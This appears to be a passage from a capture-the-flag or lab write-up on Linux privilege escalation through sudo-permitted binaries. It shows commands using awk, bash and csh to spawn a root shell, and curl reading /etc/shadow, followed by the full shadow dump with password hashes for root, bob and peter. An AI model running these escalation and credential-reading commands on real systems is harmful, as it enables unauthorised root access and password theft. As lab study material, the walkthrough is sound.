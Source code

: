 ### awk(bob)

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151408.png" alt="image-20240224221053987" style="zoom:50%;" />

### bash(bob)

```bash
sudo bash
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151409.png" alt="image-20240224221221469" style="zoom: 50%;" />

### csh(bob)

```bash
sudo csh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151410.png" alt="image-20240224223927353" style="zoom:50%;" />

### curl(bob)

```bash
sudo curl file:///etc/shadow
```

```text
root:$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXDu5Yj1:17721:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:17647:0:99999:7:::
uuidd:*:17647:0:99999:7:::
dnsmasq:*:17647:0:99999:7:::
landscape:*:17647:0:99999:7:::
pollinate:*:17647:0:99999:7:::
sshd:*:17647:0:99999:7:::
bob:$6$Kk0DA.6Xha4nL2p5$jq7qoit2l4ckULg1ZxcbL5wUz2Ld2ZUa.RYaIMs.Lma0EFGheX9yCXfKy37K0GsHz50FYIqIESo4QXWL.DYTI0:17721:0:99999:7:::
statd:*:17721:0:99999:7:::
peter:$6$QpjS4vUG$Zi1KcJ7cRB8TJG9A/x7GhQQvJ0RoYwG4Jxj/6R58SJddU2X/QTQKNJWzwiByeTELKeyp0vS83kPsYITbTTmlb0:17721:0:99999:7:::
```